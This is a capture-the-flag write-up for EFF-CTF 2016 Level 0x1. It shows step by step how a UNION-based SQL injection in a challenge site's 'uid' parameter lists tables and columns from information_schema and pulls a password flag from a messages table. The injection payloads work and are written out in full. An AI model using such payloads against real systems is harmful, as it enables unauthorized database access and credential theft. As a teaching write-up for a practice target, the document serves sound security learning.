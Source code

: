 Writeup: EFF-CTF 2016 - Level 0x1
=================================

:date: 2016-02-04 10:27:37
:tags: security, web, eff
:lang: en
:summary: Level 0x1 is a web challenge, where you need to exploit a SQLi
          (non-blind) in order to get the flag.


The following document describes how to solve the level ``0x1``
of the CTF ``EFF-CTF 2016``, available at: `level0x1.eff-ctf.org`_

.. _level0x1.eff-ctf.org:
  https://level0x1.eff-ctf.org


Check for SQLi
--------------

First of all, we've noticed opening tweets for ``admin``, leads us to a page
containing its tweets (2 tweets).

The URL is: `level0x1.eff-ctf.org/tweets?uid=1`_. A ``GET`` parameter has been
passed, so we can **check if there's a SQLi in there**..

After some tries, we've found that using `uid=1 OR 1=1`_ we get not just 2
tweets, but instead the list of all tweets for user ``admin``.

This tells us **there is a SQLi in the GET parameter** ``uid``.

Since it gives us more rows, **the SQLi is inside a** ``WHERE`` **clause**.

.. _`level0x1.eff-ctf.org/tweets?uid=1`:
  https://level0x1.eff-ctf.org/tweets?uid=1
.. _`uid=1 OR 1=1`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20OR%201=1


How to read database contents
-----------------------------

We need to find a way to use the SQLi to read database contents.

We can exploit the fact SQLi is inside the ``WHERE`` clause, so finishing the
query at that point, doesn't product an invalid query, but something like:

.. code-block:: sql

  SELECT ..
    FROM ..
   WHERE ..=1

The result of the query above, is a table with ``n`` rows (one for each column
included in the ``SELECT`` statement).

If we make a ``UNION`` between the table above and another table
(having the same number of columns, ``n``)
**the resulting table will include both of the resulting rows**:

.. code-block:: sql
  :hl_lines: 5 6

  SELECT ..
    FROM ..
   WHERE ..=1
   UNION
  SELECT <our_columns>
    FROM <our_table>


Find the number of columns
--------------------------

Let's try some unions, we'll get errors until we find the right number
of columns:

* `uid=1 UNION SELECT 1`_: *Error*, too few columns.
* `uid=1 UNION SELECT 1, 2`_: *Success*, We can read as output the number ``2``,
  which is **the second field**.
* `uid=1 UNION SELECT 1, 2, 3`_: *Error*, too many columns.

The right number of columns is: ``2``.
We can read the content of the second column, which
**will be where we will dump all of the database informations**.

.. _`uid=1 UNION SELECT 1`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201
.. _`uid=1 UNION SELECT 1, 2`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202
.. _`uid=1 UNION SELECT 1, 2, 3`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202,%203


Find the available tables
-------------------------

To find the available tables in the current database, we need to
**dump the tables of the database schema**..

Running
`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`_
gives the following output:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  | User     |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | CHARACTER\_SETS                                  |
  +----------+--------------------------------------------------+
  | admin    | COLLATIONS                                       |
  +----------+--------------------------------------------------+
  | admin    | COLLATION\_CHARACTER\_SET\_APPLICABILITY         |
  +----------+--------------------------------------------------+
  | admin    | COLUMNS                                          |
  +----------+--------------------------------------------------+
  | admin    | COLUMN\_PRIVILEGES                               |
  +----------+--------------------------------------------------+
  | admin    | ENGINES                                          |
  +----------+--------------------------------------------------+
  | admin    | EVENTS                                           |
  +----------+--------------------------------------------------+
  |            ... *so many system tables* ...                  |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_LOCKS                                    |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_CMPMEM\_RESET                            |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_CMP\_RESET                               |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_BUFFER\_PAGE\_LRU                        |
  +----------+--------------------------------------------------+
  | admin    | messages                                         |
  +----------+--------------------------------------------------+
  | admin    | tweets                                           |
  +----------+--------------------------------------------------+
  | admin    | users                                            |
  +----------+--------------------------------------------------+

We can see **the only user-defined tables are**:

-  ``messages``
-  ``tweets``
-  ``users``

.. _`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20table_name%20FROM%20information_schema.tables


Find the columns
----------------

To find the columns for each (user-defined) table we need to query the
table ``information_schema.columns`` in the column ``column_name``:


Table ``messages``
~~~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`_
we get:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  |   User   |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | mid                                              |
  +----------+--------------------------------------------------+
  | admin    | from                                             |
  +----------+--------------------------------------------------+
  | admin    | to                                               |
  +----------+--------------------------------------------------+
  | admin    | body                                             |
  +----------+--------------------------------------------------+

The ``messages`` table has the following columns:

- ``mid``
- ``from``
- ``to``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22messages%22


Table ``tweets``
~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`_
we get:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  |   User   |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | tid                                              |
  +----------+--------------------------------------------------+
  | admin    | uid                                              |
  +----------+--------------------------------------------------+
  | admin    | body                                             |
  +----------+--------------------------------------------------+

The ``tweets`` table has the following columns:

- ``tid``
- ``uid``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22tweets%22


Table ``users``
~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`_
we get:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  |   User   |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | uid                                              |
  +----------+--------------------------------------------------+
  | admin    | username                                         |
  +----------+--------------------------------------------------+
  | admin    | password                                         |
  +----------+--------------------------------------------------+

The ``users`` table has the following columns:

- ``uid``
- ``username``
- ``password``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22users%22


Summing up
~~~~~~~~~~

The following tables should be examined:

- Table ``messages`` with columns: ``mid``, ``from``, ``to``, ``body``.
- Table ``tweets`` with columns: ``tid``, ``uid``, ``body``.
- Table ``users`` with columns: ``uid``, ``username``, ``password``.

Examine tables
--------------

After taking a look at the tables described above, we found that column
``body`` of table ``messages`` contains the following text:

- ``Bro send me the password for the secret meeting``
- ``The password is MarcusYallow``
- ``I totes haxxored your stupid twitter! Your code sucks! And your passwords are horrible!``
- ``You little jerk! I'm gonna tell the FBI!``

Flag
----

The flag is ``MarcusYallow``.
